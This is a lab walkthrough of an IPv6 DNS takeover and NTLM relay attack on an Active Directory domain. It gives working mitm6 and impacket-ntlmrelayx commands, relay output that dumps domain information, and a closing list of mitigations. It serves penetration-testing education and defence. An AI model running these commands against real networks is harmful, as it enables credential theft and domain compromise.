 # IPv6 Attacks

### Intended Functionality

IPv6 is enabled by default on modern Windows systems, even in networks that primarily use IPv4. Windows will prefer IPv6 over IPv4 for name resolution and connectivity. When a system cannot resolve a hostname via DNS, it may fall back to LLMNR/NetBIOS over IPv6 and query for WPAD (Web Proxy Auto-Discovery) or DNS via multicast. This is intended to allow automatic configuration and connectivity in IPv6-enabled networks without requiring manual setup.

### What can go wrong here?

An attacker can exploit this by deploying a rogue IPv6 DNS server using tools like mitm6. Since Windows machines prioritize IPv6, they will accept DNS and WPAD responses from the attacker. This lets the attacker redirect victims’ authentication attempts (NTLM) to themselves, then relay those credentials to a service such as LDAP(S) on a Domain Controller.

### Attack Requirements

- IPv6 enabled on victim machines (default in Windows).

- No legitimate IPv6 infrastructure in the environment, otherwise, the rogue DNS/DHCP advertisements would conflict.

- NTLM authentication allowed (common in AD environments for legacy compatibility).

- LDAP/SMB signing not enforced, so that relayed credentials can be accepted.

- A user or machine account must attempt network authentication (e.g., via WPAD, logon, reboot, or resource access).

- Attacker has network access (plugged into internal LAN, Wi-Fi, or already on a compromised host).

### Attack walkthrough

1. Launch mitm6 on the attacker machine to impersonate an IPv6 DNS/DHCP server and advertise itself to the network:

```
sudo mitm6 -i eth0 -d marvel.local
```

2. Run impacket-ntlmrelayx to listen for NTLM authentication attempts and relay them to a target service, typically LDAP(S) on the Domain Controller

```
impacket-ntlmrelayx -6 -t ldap(s)://10.0.2.18 -wh fakewpad.marvel.local -l lootme
```

3. Trigger events to generate authentication traffic (rebooting a machine like THEPUNISHER or logging in as Administrator). This forces the victim to reach out for WPAD/DNS resolution, sending authentication requests to the attacker.

4. The attacker captures and relays the NTLM authentication to the DC, gaining access or privilege escalation depending on the relayed account’s rights.

```
[*] HTTPD(80): Connection from ::ffff:10.0.2.16 controlled, attacking target ldap://10.0.2.18
[*] HTTPD(80): Client requested path: http://www.msftconnecttest.com/connecttest.txt
[*] HTTPD(80): Client requested path: http://ipv6.msftconnecttest.com/connecttest.txt
[*] HTTPD(80): Authenticating against ldap://10.0.2.18 as MARVEL/THEPUNISHER$ SUCCEED
[*] Enumerating relayed user's privileges. This may take a while on large domains
[*] HTTPD(80): Authenticating against ldap://10.0.2.18 as MARVEL/THEPUNISHER$ SUCCEED
[*] Enumerating relayed user's privileges. This may take a while on large domains
[*] Dumping domain info for first time
[*] All targets processed!
```

```{figure} ../../../_static/AD/loot.png
:alt: Loot
:width: 100%
:align: center

Dumped Domain info

```

### Mitigation strategies

- Disable IPv6 if the environment does not require it.

- Enforce SMB and LDAP signing to prevent NTLM relay attacks.

- Disable WPAD (via Group Policy) to prevent automatic proxy discovery.

- Restrict high-privilege accounts from authenticating to untrusted systems, reducing the impact of relayed credentials.
